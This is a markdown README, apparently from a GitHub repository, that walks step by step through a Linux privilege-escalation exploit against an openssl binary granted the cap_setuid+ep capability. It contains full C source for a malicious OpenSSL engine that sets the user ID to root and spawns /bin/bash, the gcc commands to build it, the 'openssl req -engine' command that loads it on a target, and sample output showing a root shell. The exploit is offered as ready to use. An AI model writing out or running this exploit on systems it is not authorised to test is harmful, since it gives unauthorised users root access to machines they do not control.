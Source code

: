 # All credit goes to chaudhary1337 
**check out the original post:**
https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/

**---- *Modified by LV6LV* ----**

Consider the binary /usr/bin/openssl has capabilities set as: /usr/bin/openssl = cap_setuid+ep 

Is there a way to become root from a normal user by using this? 
> yes... yes there is a way.

## Search all the binaries' capibilities using: 
```
getcap -r / 2>/dev/null.
```
> getcap is the tool we will use
-r is the recursive flag
2>/dev/null directs the standard error stream to /dev/null


If you see /usr/bin/openssl = cap_setuid+ep, we are set for success.

## 1. Requirements (On Your System)
We will use #include <openssl/engine.h> header in our exploit engine file. On debian based systems, use: sudo apt-get install libssl-dev to install.
gcc

## 2. Getting The Exploit Ready
Create a file named openssl-exploit-engine.c with contents as such:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```
Check reference number 2  below for more information.

## 3. Compiling
Run the following:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
```
It is safe to ignore warnings below:

> implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]

> implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]

Next run:
```
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```
Resultant is the openssl-exploit-engine.so file.

## 4. Transfer the file to target machine
Once you have the file, run the following, at the location of the so file.

openssl req -engine <full path to openssl-exploit-engine.so file>

Sample output if openssl-exploit-engine.so is located in the /tmp directory
```
$ openssl req -engine /tmp/openssl-exploit-engine.so
# whoami
root
```
**Enjoy!**

## Common Errors
> fatal error: openssl/engine.h: No such file or directory #include <openssl/engine.h>
  
Fix by installing libssl-dev (sudo apt-get install libssl-dev)

## 7. References

1. Read up more on capabilities. 
  https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities
2. OpenSSL building a useless engine
  https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/
3. How to use the library load feature OpenSSL
  https://gtfobins.github.io/gtfobins/openssl/#library-load
